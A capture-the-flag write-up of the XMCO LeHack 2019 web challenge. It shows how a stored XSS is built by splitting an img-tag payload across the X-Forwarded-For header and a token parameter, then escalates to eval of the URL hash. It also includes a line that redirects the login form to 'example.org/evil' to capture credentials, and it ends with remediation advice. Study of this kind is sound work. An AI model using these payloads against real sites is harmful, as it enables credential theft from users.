 # XMCO LeHack 2019 challenge

## Introduction

This challenge is a challenge presented by XMCO at the LeHack security
conference on 2019-07-06.

The challenge consists of a single web page. The web page contains a regular
login form. The instruction gives a hint: the vulnerability to find is an XSS
vulnerability.


## Reconnaissance

The page is located at http://www.wannatry.fr/ ; it contains a single login
form.

The index page redirects the user automatically to `/?token=[...]`
The token is a base64 of 48 random-looking bytes:
```
$ base64 -d | xxd
aLMkkv9GUVzFWVYPKPrEDZWRdJPc8AWFq5EXBpYJ9uXjiJ7ZDMFZh4uc3pZsAg1T
00000000: 68 b3 24 92 ff 46 51 5c c5 59 56 0f 28 fa c4 0d  h.$..FQ\.YV.(...
00000010: 95 91 74 93 dc f0 05 85 ab 91 17 06 96 09 f6 e5  ..t.............
00000020: e3 88 9e d9 0c c1 59 87 8b 9c de 96 6c 02 0d 53  ......Y.....l..S
```

The token appears twice in the page:
```
$ curl -s 'http://www.wannatry.fr/?token=SENTINEL' | fgrep SENTINEL
    <link rel="stylesheet" href="/static/main.css?token=SENTINEL" />
    <script src="/static/main.js?token=SENTINEL"></script>
```

Unfortunately, most "interesting characters" are filtered out. The single quote
character is not filtered, but cannot be used for an injection in this context:
```
$ curl -s 'http://www.wannatry.fr/?token=SENTINEL"></'\' | fgrep SENTINEL 
    <link rel="stylesheet" href="/static/main.css?token=SENTINEL&quot;&gt;&lt;/'" />
    <script src="/static/main.js?token=SENTINEL&quot;&gt;&lt;/'"></script>
```


The following mention appears on the page's footer: `Your IP Address (NULL) has
been logged!`. This statements leads to believe that the IP address may be used
as a vector for a reflective XSS.

By using the `X-Forwarded-For` HTTP header, it is possible to make the web
application store a different IP address. It is worth noting that the IP address
displayed is always the **previous** one: 

```
$ curl -s 'http://www.wannatry.fr/?token=foobar' --header 'X-Forwarded-For: SENTINEL' | fgrep SENTINEL
(no reply)

$ curl -s 'http://www.wannatry.fr/?token=foobar' --header 'X-Forwarded-For: SENTINEL' | fgrep SENTINEL
                        Your IP Address (SENTINEL) has been logged!
```

The IP address is reset when the token is changed.

The value is truncated up to the first whitespace character. This value is
limited to 9 characters which is just enough for `<script>/`.

## Vulnerability

As mentioned earlier, the `token` variable is not vulnerable as it is properly
filtered out. The IP address is unfiltered, but is limited in size.

The token is written once after the IP address:
```
                        Your IP Address (<script>/) has been logged!
                    </p>
                </div>
                <div class="col l4 offset-l2 s12">
                    <h5 class="black-text">Links</h5>
                    <ul>
                        <li><a class="black-text text-lighten-3" href="https://www.xmco.fr/">XMCO</a></li>
                    </ul>
                </div>
            </div>
        </div>
        <div class="footer-copyright">
            <div class="container">
                <a class="black-text text-lighten-4 right" href="#!"></a>
            </div>
        </div>
    </footer>
    <!--JavaScript at end of body for optimized loading-->
    <script src="/static/main.js?token=foobar"></script>
```

9 characters is small enough to put `<img/x='` (8 characters).
By using a single quote in the token field, this results in a single `img` tag
"eating" the markup between the IP address and the token.

Using the following values results in the following behaviour:
**X-Forwarded-For**: `<img/x='`
**Token**: `' src='' onerror='alert(1)' />`
```
                        Your IP Address (<img/x=') has been logged!
                    </p>
                </div>
                <div class="col l4 offset-l2 s12">
                    <h5 class="black-text">Links</h5>
                    <ul>
                        <li><a class="black-text text-lighten-3" href="https://www.xmco.fr/">XMCO</a></li>
                    </ul>
                </div>
            </div>
        </div>
        <div class="footer-copyright">
            <div class="container">
                <a class="black-text text-lighten-4 right" href="#!"></a>
            </div>
        </div>
    </footer>
    <!--JavaScript at end of body for optimized loading-->
    <script src="/static/main.js?token=' onerror='alert(1)' />" />"></script>
```

is essentially interpreted as: 
```
Your IP Address (<img/x='[...]' src='' onerror='alert(1)' />" />"></script>
```

This proof of concept shows an alert box.

![Alert box](alert.png)


## Payload

While `alert(1)` is a common way of proving the presence of XSS vulnerabilities,
it does not show the full impact of the said vulnerability.

It is possible to make replace the payload with a snippet of code that evaluates
an unfiltered script.

A good way to place the script is in the URL's hash. This value is not limited
in length, and is not filtered, because this value is never sent to the server.

The following script session shows how to leverage the URL's hash:
```
>>> document.location.hash
"#console.log(%22Hello%20from%20the%20hash!%22)"

>>> document.location.hash.substr(1)
"console.log(%22Hello%20from%20the%20hash!%22)"

>>> unescape(document.location.hash.substr(1))
"console.log(\"Hello from the hash!\")"

>>> eval(unescape(document.location.hash.substr(1)))
Hello from the hash! debugger eval code line 1 > eval:1:9
undefined
```

In order to leverage this payload, the following inputs can be used:
**X-Forwarded-For**: `<img/x='`
**Token**: `' src='' onerror='eval(unescape(document.location.hash.substr(1)))' />`


## Attack scenario

The XSS being a client-side vulnerability, it is required to make the victim
send a request triggering the vulnerability.

It is not possible to make a victim browser submit a request with a custom
header (such as `X-Forwarded-For`). The vulnerability appears unexploitable at
first glance.

The IP address displayed shows the IP address of the **previous** request. This
means an attacker is able to *prepare* a token by sending a first request with
the headers used previously.

```
$ curl "http://www.wannatry.fr/?token=' src='' onerror='eval(unescape(document.location.hash.substr(1)))' />" --header "X-Forwarded-For: <img/x='"
[...]
```

The XSS will be triggered the next time somebody accesses the website with the
same token, An attacker could trick a victim to go to a shortened link that
redirects to the website with the malicious payload.

An attacker could use the XSS to change the form's `action`. This will instruct
the victim's browser to submit the form to a server they control. They will be
able to retrieve the victim's credentials.

```
https://[...]#document.getElementById('login-form').action = "https://example.org/evil"
```

![Form's URL changed to the attacker's domain](action.png)
![Form being submitted to the attacker's domain](evil.png)

## Remediation

This vulnerability can be patched by using the PHP functions `long2ip` and
`ip2long` to ensure the IP address is a valid IPv4 address.
Ideally, the application should not trust the `X-Forwarded-For` header from any
clients. This header should only be effective if the client is a known
reverse-proxy.
